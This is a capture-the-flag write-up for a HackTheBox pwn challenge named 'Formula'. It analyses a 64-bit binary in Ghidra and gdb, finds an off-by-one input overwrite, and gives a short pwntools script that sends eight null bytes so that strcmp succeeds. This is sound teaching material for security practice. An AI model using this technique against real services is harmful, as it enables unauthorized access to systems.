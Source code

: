```yaml
---
title:  "[CTF] Formula (ELF 64-bit Buffer overflow + Logical bug)"
categories: [CTF, HTB, Pwn]
---
```


<blockquote>
  <p>Marty, I found a letter from someone in my pocket that says Time Travel is possible and provides the ingredients and a secret formula. The note is not 100% readable due to the time and I cannot fully understand the handwritting either. Please help me read the note and let's get to work creating this thing!</p></blockquote>

## Understanding the challenge

The challenge presents a randomly-coloured flask with a story, and asks for the missing ingredient:
![Menu](/assets/images/Formula/menu.png)

Behind the scenes, we can understand more about the code from Ghidra’s decompiled version:

```c
undefined8 main(void)

{
  int iVar1;
  long in_FS_OFFSET;
  char local_20 [7];
  undefined8 local_19;
  undefined local_11;
  long local_10;
  
  local_10 = *(long *)(in_FS_OFFSET + 0x28);
  setup();
  banner();
  story();
  local_19 = 0x75696e6f74756c50;
  local_11 = 0x6d;
  read(0,local_20,8);
  iVar1 = strcmp(local_20,(char *)&local_19);
  if (iVar1 == 0) {
    success();
  }
  else {
    fail();
  }
  if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
    __stack_chk_fail();
  }
  return 0;
}
```


In terms of security protections against exploitation, the binary has most of the checkboxes ticked:
![Checksec](/assets/images/Formula/checksec.png)

The challenge reads the ingredient from user input into the variable `local_20` (8 bytes), and compares it with the hardcoded ingredient Plutonium (9 bytes) - `0x75696e6f74756c50` and `0x6d`.

## Vulnerability identification

To locate the vulnerability, we need to examine the stack before the comparison which leads to `success()` is being made:

```asm
=> 0x555555400efd <main+92>:    call   0x555555400a00 <strcmp@plt>
   0x555555400f02 <main+97>:    test   eax,eax
   0x555555400f04 <main+99>:    jne    0x555555400f0d <main+108>
   0x555555400f06 <main+101>:   call   0x555555400b9a <success>
   0x555555400f0b <main+106>:   jmp    0x555555400f12 <main+113>
   0x555555400f0d <main+108>:   call   0x555555400c40 <fail>
   0x555555400f12 <main+113>:   mov    eax,0x0
   0x555555400f17 <main+118>:   mov    rcx,QWORD PTR [rbp-0x8]
```

According to the [Linux x64 calling convention](https://www.ired.team/miscellaneous-reversing-forensics/windows-kernel-internals/linux-x64-calling-convention-stack-frame), the first two function parameters are accessed via the RDI and RSI registers:

```asm
// Plutonium (hardcoded)
gdb$ x/16b $rsi
0x7fffffffde0f: 0x50    0x6c    0x75    0x74    0x6f    0x6e    0x69    0x75
0x7fffffffde17: 0x6d    0x00    0x1b    0x6d    0x5b    0xc6    0x4c    0xe2

// Ingredient (user input - ABCD)
gdb$ x/16b $rdi
0x7fffffffde08: 0x41    0x42    0x43    0x44    0x0a    0x00    0x00    0x50
0x7fffffffde10: 0x6c    0x75    0x74    0x6f    0x6e    0x69    0x75    0x6d
0x7fffffffde18: 0x00

gdb$ x/s $rsi
0x7fffffffde0f: "Plutonium"

gdb$ x/s $rdi
0x7fffffffde08: "ABCD\n"
```

So we can read 8 bytes, and the 8th one will overwrite the first letter of the first letter of the hardcoded ingredient, `0x50` (**P**). 

## Exploitation

Even if not obvious straight away, the exploitation is actually quite easy. The only option to make the two strings equal is to *make them both `NULL`*, by sending 8 zeros as the secret ingredient.


```python
from pwn import *

conn = remote('<IP>', '<PORT>')

# Receive formula
print(conn.recvrepeat(2))

conn.send('\x00' * 8)
print(conn.recvrepeat(2))

conn.close()
```

## References

* [Linux x64 calling conventions and stack frame](https://www.ired.team/miscellaneous-reversing-forensics/windows-kernel-internals/linux-x64-calling-convention-stack-frame)
